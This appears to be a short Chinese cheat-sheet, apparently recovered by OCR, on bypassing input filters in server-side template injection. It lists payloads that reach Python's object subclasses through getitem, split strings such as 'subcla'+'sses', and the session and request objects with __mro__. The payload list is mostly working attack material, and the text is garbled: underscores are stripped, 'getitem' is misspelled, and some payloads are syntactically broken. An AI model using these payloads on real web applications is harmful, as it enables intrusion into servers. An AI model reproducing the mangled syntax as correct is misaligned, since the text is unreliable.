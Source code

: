 

#### 一些绕过方法

1.过滤[]等括号

使用gititem绕过。如原poc {{"".class.bases[0]}}

绕过后{{"".class.bases.getitem(0)}}

2.过滤了subclasses，拼凑法

原poc{{"".class**.**bases[0].subclasses()}}

绕过 {{"".class.bases[0]'subcla'+'sses'}}

3.过滤class

使用session

poc {{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclasses()[118]}}

多个bases[0]是因为一直在向上找object类。使用mro就会很方便

```
{{session['__cla'+'ss__'].__mro__[12]}}
```

或者

```
request['__cl'+'ass__'].__mro__[12]}}
```
